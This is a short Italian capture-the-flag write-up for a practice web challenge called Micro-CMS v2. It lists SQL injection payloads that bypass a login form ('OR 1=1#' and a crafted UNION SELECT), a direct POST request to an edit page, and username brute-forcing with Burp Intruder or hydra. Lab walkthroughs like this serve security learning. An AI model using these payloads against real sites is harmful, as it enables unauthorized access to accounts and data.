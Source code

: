 # Micro-CMS v2

## flag0

+Creare nuova pagina, viene chiesto login

+ admin:admin => 'Unknown user'

+ admin'sqltest:admin => 'Traceback'

![picture](imgs/1.png)

+ admin' OR 1=1#:password => 'Invalid password' => quindi admin(true) e password(false)

+ admin= admin' UNION SELECT 'pwned'#  password= pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

![picture](imgs/2.png)

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ admin = dipa' OR 1=1# password= 'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 